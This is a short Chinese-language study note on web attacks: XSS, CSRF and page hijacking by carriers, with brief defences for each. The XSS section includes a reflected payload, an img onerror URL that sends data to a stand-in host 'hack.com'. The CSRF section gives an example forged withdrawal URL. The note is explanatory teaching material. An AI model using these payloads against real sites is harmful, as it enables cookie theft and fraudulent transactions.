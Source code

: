 ### - XSS
> `cross site scripting` 跨站脚本攻击 
>  攻击者往 web 页面插入恶意 Script 代码，  
>  当其他用户浏览该网页时，嵌入的脚本代码就会被执行，从而到达恶意攻击用户的目的

1. 反射型 

> https://www.xxx.com/search?item=<img onerror="new Image().src='//hack.com?c=' src='null'>"
> 很多站点都提供搜索服务，如果把搜索的关键词修改为可执行的javascript语句  
> 服务器不加处理将类似的代码现实到页面  
> XSS代码将会被执行

2. 存储型

> 利用站点本身合法的存储结构，通过站点提供的接口提交XSS代码  
> 会被存储到服务器上 当其他用户访问该网页时，服务器把包含XSS的内容反馈给用户  
> 从而攻击用户

##### 服务器都会将javascript当作文本处理， 在服务端整合进HTML文档中
##### 在浏览器解析这些文本的过程 也就是XSS被执行的时候
##### 所有最主要的防范措施就是 对任何用户提交到服务器上的文本都要经过编码或者转译



### - CSRF
> `cross-site request forgery` 跨站请求伪造  
> 通过伪装来自守信用户的请求来利用  
> 攻击者盗用了你的身份，以你的名义发送恶意请求  

> 我们先假设支付宝存在CSRF漏洞，我的支付宝账号是lyq，攻击者的支付宝账号是xxx。  
> 然后我们通过网页请求的方式 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=lyq2  
> 可以把我账号lyq的10000元转到我的另外一个账号lyq2上去。通常情况下，该请求发送到支付宝服务器后,  
> 服务器会先验证该请求是否来自一个合法的session并且该session的用户已经成功登陆。攻击者在支付吧也有账号xxx， 
> 他知道上文中的URL可以进行转账操作，于是他自己可以发送一个请求 http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx 到支付宝后台。  
> 但是这个请求是来自攻击者而不是来自我lyq，所以不能通过安全认证，因此该请求作废。  
> 这时，攻击者xxx想到了用CSRF的方式，他自己做了个黄色网站，在网站中放了如下代码：http://zhifubao.com/withdraw?account=lyq&amount=10000&for=xxx并且通过黄色链接诱使我来访问他的网站。  
> 当我禁不住诱惑时就会点了进去，上述请求就会从我自己的浏览器发送到支付宝，  
> 而且这个请求会附带我的浏览器中的cookie。  
> 大多数情况下，该请求会失败，因为支付宝要求我的认证信息，但是我如果刚访问支付宝不久，还没有关闭支付宝页面，  
> 我的浏览器中的cookie存有我的认证信息，这个请求就会得到响应，从我的账户中转10000元到xxx账户里，而我丝毫不知情，攻击者拿到钱后逍遥法外。所以以后一定要克制住自己，不要随便打开别人的链接。

#### CSRF 防御错书主要有验证 HTTP Referer 字段，和 添加 token 验证、验证码 



### - 页面劫持
1. 跳转型  

> 用户输入地址A，但是跳转到地址B，用户输入baidu.com跳转到so.com或者sm.cn，并且对方网站有故意做成和百度搜索差不多的样子。  

##### 这种劫持，输入 url 到 页面加载结束，判断 url 是否一致

2.注入型

> 在页面传输过程中，对内容进行再加工（注入 js、iframe、篡改页面）。注入js的方式可以通过document.write或者直接改html代码片段等方式，给页面增加外链js，为了做到更难检测，有些运营商会捏造一个不存在的url地址，从而不被过滤或者检测。  

```
案例1：运营商会用自己识别的ip或者域名做js网址，wap.zjtoolbar.10086.cn这类只有在浙江移动网络下才会被解析出来，同理ip也是

案例2：运营商很聪明，知道页面可以检测所有外链js的域名，比如：m.baidu.com我只允许m.baidu.com/static的外链js，其他js都会  
被记录反馈为了不被检测出来，我遇见个case电信会访问一个不存在的地址，比如：m.baidu.com/static/abc.js，这个地址在运营商直  
接返回劫持的js代码,请求不会发到百度的服务器。
```  

##### 改写 `document.write` 方法 和  `window.top = parent!== window` 和  `https://`
    






